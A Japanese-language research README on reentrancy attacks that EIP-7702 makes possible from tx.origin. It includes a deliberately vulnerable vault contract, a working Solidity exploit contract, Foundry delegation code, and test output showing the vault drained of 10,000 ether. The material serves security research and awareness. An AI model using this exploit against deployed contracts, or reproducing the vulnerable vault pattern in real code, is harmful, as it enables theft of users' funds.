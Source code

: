 # Notes on tx.origin Reentrancy Attacks

## 概要
- 2025年5月に行われたPectraアップグレードで [EIP-7702](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-7702.md) が導入されたことで `tx.origin` から Reentrancy Attack が可能になった。
- EIP-7702 は、簡単に言えば「Externally Owned Account (EOA) に Ethereum Virtual Machine (EVM) バイトコードをセットするための仕様」。
    - 従来 EOA 上のコンテキストで、EVM バイトコードの実行はできない仕様だった。
    - EIP-7702 により、EOA がコントラクトのように振る舞うことができ、例えば「EOA に Ether が送金されたら `fallback` 関数でそれを別のアドレスにそのまま送金する」なんてことができる。
- EIP-7702 が導入されたことで様々なメリットがある一方で、「`tx.origin` は EOA であるから、 `tx.origin` が Reentrancy Attack を実行することはない」という前提が当たり前に崩れる。
    - Reentrancy Attack は [Checks-Effects-Interactionsパターン](https://github.com/minaminao/seccamp/tree/main/course/reentrancy) (CEI) に従い状態の整合が取れていれば被害を受けることがないが、一部のコントラクトでは不十分な対策が取られている。
        - 補足: Reentrancy Guard は Cross-Contract Reentrancy Attack に脆弱。
    - 特に EIP-7702 導入以前では、EOA から Reentrancy Attack を行うことは不可能であったため、この性質を利用して、例えば `require(tx.origin == msg.sender)` を Reentrancy Attack への対策としているコントラクトがあった。
        - `require(tx.origin == msg.sender)` を使用しているコントラクトは最近はほぼ見ないが、一昔前のコントラクトではよく使われていた。参考: [GitHub での検索](https://github.com/search?q=%22tx.origin+%3D%3D+msg.sender%22+language%3ASolidity&type=code)。
    - この例のように、 EIP-7702 で影響を受ける可能性があるケースは、CEI に従わずに `tx.origin` への送金（より一般にコントラクトコール）をしている場合である。
    - 従来 EIP-7702 が無いことで見逃されていた特殊な攻撃条件が成立する可能性がある。
- 当然、影響を受けるコントラクトを Ethereum Foundation や調査機関が調べ上げて EIP-7702 が導入されているため、ほぼほぼ安全であるとは考えられている。実際現時点で Ethereum メインネットで、この脆弱性が悪用されて被害が出たケースは私が知る限りは無い（BSC 等他のチェーンでは攻撃が報告されている）。
- 一方で、過去デプロイされた全てのコントラクトを調査できているわけではないのが事実であり、潜在的に影響を受けるコントラクトがゼロであると言い切ることは不可能。
    - 調査例: [Dedaub による関連仕様 EIP-3074 の影響調査](https://dedaub.com/audits/ethereum-foundation/ef-eip-3074-impact-study-may-19-2021/)。
    - まだ `tx.origin == msg.sender` で検索したコントラクトを地道にマニュアルレビューする程度であれば可能ではあるが、極端な話、ソースコードが検証されていないコントラクトに対してはバイトコードレベルでの調査を要するため現実的に困難（とはいえ、多くのユーザーが利用するプロトコルであれば、基本的にソースコードが公開されているので大きな問題にはならない）。

## PoC

例えば、以下のとてもシンプルなVaultコントラクトについて考える:

```solidity
contract SimpleVault {
    mapping(address => uint256) public balanceOf;

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
    }

    function withdrawAll() public {
        require(tx.origin == msg.sender);
        require(balanceOf[msg.sender] > 0);
        (bool success,) = msg.sender.call{value: balanceOf[msg.sender]}("");
        require(success);
        balanceOf[msg.sender] = 0;
    }
}
```

仮に `require(tx.origin == msg.sender);` が無ければ以下のコントラクトで典型的な Reentrancy Attack が可能で、デポジットされた他のユーザーの資金を全て引き出せる:

```solidity
contract Exploit {
    SimpleVault simpleVault;
    uint256 step = 0;

    function exploit(address simpleVaultAddr) external payable {
        simpleVault = SimpleVault(simpleVaultAddr);
        for (uint256 i = 0; i < 20; i++) {
            uint256 value = address(simpleVault).balance < address(this).balance
                ? address(simpleVault).balance
                : address(this).balance;
            if (value == 0) {
                break;
            }
            simpleVault.deposit{value: value}();
            simpleVault.withdrawAll();
        }
    }

    receive() external payable {
        if (step == 0) {
            step = 1;
            simpleVault.withdrawAll();
        } else {
            step = 0;
        }
    }
}
```

補足: 効率的に全額引き出すために倍々に引き出す額を上げている。

`require(tx.origin == msg.sender);` があるので、以下のように `Exploit` コントラクトのバイトコードを攻撃者の EOA にセットしてから自身の `exploit` 関数を呼び出す:

```solidity
Exploit exploit = new Exploit();
vm.signAndAttachDelegation(address(exploit), attackerPrivateKey);
Exploit(payable(attackerAddr)).exploit{value: 1 ether}(address(simpleVault));
```

Foundry では `vm.signAndAttachDelegation` を用いて、EOA にバイトコードを設定できる（ref: [docs](https://getfoundry.sh/reference/cheatcodes/sign-delegation/)）。
厳密には既にデプロイ済みのコントラクトに実行を委任している。

注意点として、初期化コードは EOA のコンテキストでは実行されないので、もし `Exploit` のコンストラクタを実装しても委任時には実行されない。
そのため、先程の `Exploit` コントラクトでは、コンストラクタに `simpleVault` のアドレスを渡さず、 `exploit` 関数実行時に渡している。

このリポジトリ配下で以下のコマンドを実行すると、攻撃が成功することを確認できる:

```
$ forge test -vv
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.30
[⠔] Solc 0.8.30 finished in 376.34ms
Compiler run successful!

Ran 1 test for test/Exploit.t.sol:ExploitTest
[PASS] test_Exploit() (gas: 962560)
Logs:
  before the attack:
    attacker balance: 1.000000000000000000
    vault balance: 10000.000000000000000000
  after the attack:
    attacker balance: 10001.000000000000000000
    vault balance: 0.000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.63ms (1.16ms CPU time)

Ran 1 test suite in 102.14ms (1.63ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

セットアップ後 `SimpleVault` コントラクトには 10,000 ether があり、攻撃後は 0 ether になっている。
